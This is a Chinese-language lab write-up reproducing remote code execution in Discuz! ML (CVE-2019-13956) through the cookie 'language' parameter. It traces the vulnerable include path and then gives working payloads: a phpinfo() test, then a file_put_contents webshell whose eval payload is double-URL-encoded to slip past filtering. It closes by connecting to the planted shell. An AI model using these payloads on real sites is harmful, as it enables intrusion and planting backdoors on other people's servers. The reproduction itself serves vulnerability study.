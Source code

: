 Discuz! ML远程代码执行(CVE-2019-13956)

#### 漏洞介绍：

该漏洞存在discuz ml(多国语言版)中,cookie中的language可控并且没有严格过滤,导致可以远程代码执行。

#### 环境搭建：

靶机：CentOS7(10.10.10.137)

docker环境下载：

https://codeload.github.com/rhbb/CVE-2019-13956/zip/refs/heads/master

进入目录：

```
docker-compuse up -d
```

```
docker ps -a
```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220504150603.png)

浏览器访问：```http://10.10.10.137:8090```

安装discuz

环境搭建完成！！

#### 漏洞分析

漏洞点出在如下文件中

/source/module/portal/portal_index.php:33

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220504151107.png)

include_once 对template()函数的返回对象进行了包含，如果包含的文件内容可控的话，则存在命令执行。

跟进template()函数

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220504152259.png)

发现该函数返回饿了一个缓存文件

<img src="https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220504152426.png" style="zoom:150%;" />

这个缓存文件的文件名是由DISCUZ_LANG拼接而成的

```php
$cachefile = './data/template/'.DISCUZ_LANG.'_'.(defined('STYLEID') ? STYLEID.'_' : '_').$templateid.'_'.str_replace('/', '_', $file).'.tpl.php';
```

查看DISCUZ_LANG的值：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220504152926.png)

继续跟进lng

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220504153048.png)

lng的值从cookie中的language参数获得，然而cookie可以在抓取到的数据包中进行修改，至此可以判定漏洞存在。

整体思路：网站程序从cookie中获取language的值作为缓存文件名的一部分，这个文件名恰好被include_once包含，构成命令执行漏洞。

#### 漏洞复现：

抓包并修改cookie中的language内容为

```xxx_language=sc'.phpinfo().'```

有人问构造的payload为什么要加单引号和点？？

经过上文的分析，我们知道执行的语句是缓存文件名的一部分

```'./data/template/'.DISCUZ_LANG.'_'```

我们将payload代入上面的语句：

```'./data/temlpate/'.'sc'.phpinfo().''_'```

这样就可以成功执行`phpinfo()`了

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220504153841.png)

返回页面如下：

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220504153859.png)

下面进行getshell

利用php命令输出一个一句话

利用```file_put_contents()```函数

payload：```'.file_put_contents("shell.php","<?php eval($_POST[cmd]);?>").'```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220504155634.png)

出现错误，对payload进行编码

通过错误信息可以判断我们的一句话被系统过滤掉了

采用urlencode的方式绕过一下,将敏感词（POST，eval）编码为url格式

```'.file_put_contents("shell.php",urldecode('%3C%3Fphp%20%65%76%61%6c%28%24_%50%4f%53%54%5Bcmd%5D%29%3B%3F%3E')).'```

因为服务器会自动解码一次，所以我们要再进行一次URL编码

```%27.file_put_contents%28%22shell.php%22%2Curldecode%28%27%253C%253Fphp%2520%2565%2576%2561%256c%2528%2524_%2550%254f%2553%2554%255Bcmd%255D%2529%253B%253F%253E%27%29%29.%27```

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220504192744.png)

发送数据包,响应如下：

![image-20220504192826521](C:\Users\19026\AppData\Roaming\Typora\typora-user-images\image-20220504192826521.png)

蚁剑连接一下，

![](https://hummer-vin.oss-cn-beijing.aliyuncs.com/images/20220504192711.png)

测试成功！！！